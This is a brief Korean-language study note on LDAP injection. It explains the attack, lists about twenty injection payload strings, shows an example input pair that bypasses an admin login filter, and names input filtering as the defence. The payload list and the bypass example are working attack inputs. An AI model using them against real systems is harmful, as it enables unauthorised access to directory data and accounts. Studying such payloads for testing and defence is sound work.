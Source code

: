 # LDAP Injection

https://www.hahwul.com/cullinan/ldap-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection

<br>

LDAP(Lightweight Directory Access Protocol)은 네트워크 상에서 조직이나 개인정보 혹은 파일이나 디바이스 정보 등을 찾아보는 것을 가능하게 만든 소프트웨어 프로토콜이다.

LDAP Injeciton(Lightweight Directory Access Protocol)은 Injection 공격으로 사용자의 입력값이 LDAP Query에 직접 영향을 끼칠 수 있을 때 이를 통해 비정상적인 LDAP 동작을 유도하는 공격 방법입니다. 보통의 Injection 취약점과 비슷하게 전반적인 공격 매커니즘은 SQL Injection 등 대다수 Injection 방식과 동일하다.

보통 SQLI와 달리 LDAP 인젝션은 특수문자에 대한 쿼리문 실행 이 좀 더 집중한 개념이다.

## 공격구문
```
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Exploit

```
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## 대응방안
1. 입력 값 필터링 & 화이트 리스트 방식